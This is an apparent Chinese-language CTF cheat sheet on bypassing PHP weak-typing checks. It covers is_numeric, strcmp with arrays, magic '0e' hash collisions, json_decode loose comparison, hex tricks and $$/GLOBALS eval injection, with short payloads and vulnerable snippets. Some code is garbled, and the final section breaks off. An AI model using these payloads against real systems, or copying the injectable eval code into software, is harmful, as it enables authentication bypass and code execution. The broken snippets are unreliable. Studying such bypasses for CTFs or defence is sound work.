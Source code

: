 * [isNumber](#isNumber)
* [数字长度绕过](#数字长度绕过)
* [strcmp](#strcmp)
* [md5](#md5)
* [json_decode](#json_decode)
* [==&===](#==&===)
* [switch](#switch)
* [数字比较](#数字比较)
* [GLOBALS($$) 引用全局作用域中可用的全部变量](#GLOBALS($$) 引用全局作用域中可用的全部变量)
* [[_FILES]](#[_FILES])
### isNumber
is_numeric()判断是否为数字，因为PHP的弱类型，将数字后面加上空格或者任意一个字符即可绕过.
payload:
```
数字%20
p2=2%20
```
### 数字长度绕过
通过科学计数法绕过
payload:
```
$_GET['p1'] > 99999999 && strlen($_GET['p1']) < 9
p1=1e9
```
### strcmp
strcmp函数比较字符串的本质是将两个变量转换为ascii，然后进行减法运算，然后根据运算结果来决定返回值.
语法：strcmp(string1,string2);
0 - 如果两个字符串相等。当传入的数据类型不是字符串是，报错，并且返回0；

<0 - 如果 string1 小于 string2

>0 - 如果 string1 大于 string2
payload：
```
  if (strcmp($_GET['flag'], FLAG) == 0) 
  flag=[]
```
### md5
PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0
payload:
```
QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
     sha1(str)
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')
```
### json_decode
输入一个json类型的字符串，json_decode函数解密成一个数组，判断数组中key的值是否等于key的值。虽然key的值我们不知道，但是可以利用0=="string"这种形式绕过
payload:
```
define('key', 'flag{4}');
if (isset($_POST['a'])) {
    $a = json_decode($_POST['a']);
    if ($a->key == $key) {
        echo "flag" . key;
    } else {
        echo "不相等";
    }
 } else{
     echo "a不存在";
 }
a={"key":0}
```
### ==&===
“==”是判断数值是否相等，如果类型不同的进行比较，其会将类型转换成相同的再进行比较.“===”则是判断数值和类型是否相等.
当一个字符串欸当作一个数值来取值，其结果和类型如下:
如果该字符串没有包含'.'，'e'，'E'并且其数值值在整形的范围之内，该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值
如果该字符串以合法的数值开始，则使用该数值，否则其值为0
payload:
```
<?php  
var_dump("admin" ==0);"admin"转换成0
var_dump("1admin" ==1);"1admin"转成成1
var_dump("2admin" ==2);"2admin"转成成2
var_dump("admin1" ==1);"admin1"转换成0
var_dump("admin1" ==0);
var_dump("0e123456" =="0e4456789");//e是科学计数法。0exx=0*10的n次方
?>
#bool(true)
bool(true)
bool(true)
bool(false)
bool(true)
bool(true)
```
### switch
原理同==
payload:
```
```
### 数字比较
绕过常规数字校验，使用16进制。0x
payload:
```
$one=ord('1');
$nigth=ord('9');
$number='2223454235232546';
for(i=0;i<strlen($number);++i){
$digit=ord(tmp[i]);
if($digit>=$one&&$digit<=$night){
return "false";
}
if($number==$temp){
echo "flag";
}
}



```
### GLOBALS($$) 引用全局作用域中可用的全部变量
```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```
- 看到了$$a,可能是用超全局变量GLOBALS，于是post一个参数hello=GLOBALS，果然：
```
### [_FILES] 
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
